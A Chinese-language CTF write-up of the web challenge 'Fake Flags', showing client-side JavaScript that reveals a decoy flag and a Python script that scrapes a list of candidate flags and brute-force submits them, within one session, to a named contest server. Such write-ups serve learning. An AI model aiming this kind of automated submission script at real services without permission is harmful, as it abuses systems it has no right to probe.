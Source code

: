 <script src="https://cdn.mathjax.org/mathjax/latest/MathJax.js?config=TeX-AMS-MML_HTMLorMML" type="text/javascript"></script> <script type="text/x-mathjax-config"> MathJax.Hub.Config({ tex2jax: { skipTags: ['script', 'noscript', 'style', 'textarea', 'pre'], inlineMath: [['$','$'], ["\\(","\\)"]], displayMath: [["$$","$$"], ["\\[","\\]"]] } }); </script>

# 2024年国科大本科生CTF竞赛部分题目write up

## Web

#### Fake Flags

点进去是一个俄罗斯方块的界面，提示2w分可以获得一个flag。第一反应是后端php接收一个可能名字叫score的参数用来验证并回显flag，如果是这样可以用Burpsuite抓包解决。按F12查看后，发现似乎并不是这样，用来分数的验证都是在前端的js进行：
```javascript
setInterval(() => {
  if (player.score >= 20000) {
    alert("Congratulations! You have completed the challenge.");
    alert("Flag: ucatflags{Th1s_1s_3_F4k3_Fl4g}");
  }
}, 1000);
```
显然这是一个假的flag，但是在js代码里有新的发现，可以看到有个url为`http://123.249.92.229/FakeFlags/actually_flag.php`。访问它，看到界面有很多的flag，下面有一个提交的表单，每一次刷新页面flag就会更新，看上去像随机更新的md5字符串，并且可以用F12看到注释:
`<!-- 在 session 有效期内提交我想要的那个 flag，我就给你本题真正的答案 -->`
此外还有一段这样的代码：
```html
    <form id="flagForm" action="check_flag.php" method="post">
        <label for="flag">Flag:</label>
        <input type="text" id="flag" name="flag" required>
        <button type="submit">Submit</button>
    </form>
```
可见这个`check_flag.php`是用来验证的，总而言之我们可以写一段爬虫程序用来完成提交过程：
```python
import requests
from lxml import html
url='http://123.249.92.229/FakeFlags/check_flag.php'
url1='http://123.249.92.229/FakeFlags/actually_flag.php'
flag=[]

session=requests.Session()
response=session.get(url=url1)
tree = html.fromstring(response.text)
li_elements = tree.xpath('//li')
list=[]
for li in li_elements:
    list.append(li.text)

for i in list:
    data={'flag':i}
    response=session.post(url=url,data=data)
    print(response.text)
```
注意这里要保持session，利用`lxml`库来解析html标签获取flag列表，利用`requests`库发送post请求即可。
